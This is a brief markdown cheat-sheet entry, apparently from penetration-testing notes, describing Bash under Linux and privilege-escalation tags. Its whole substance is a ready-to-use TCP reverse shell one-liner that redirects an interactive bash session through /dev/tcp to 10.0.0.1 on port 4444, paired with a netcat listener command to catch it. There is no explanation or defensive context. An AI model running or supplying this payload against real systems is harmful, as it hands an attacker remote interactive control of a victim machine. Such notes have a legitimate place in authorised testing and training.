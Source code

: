 ```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc]
alts: []
website:
---
```


## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```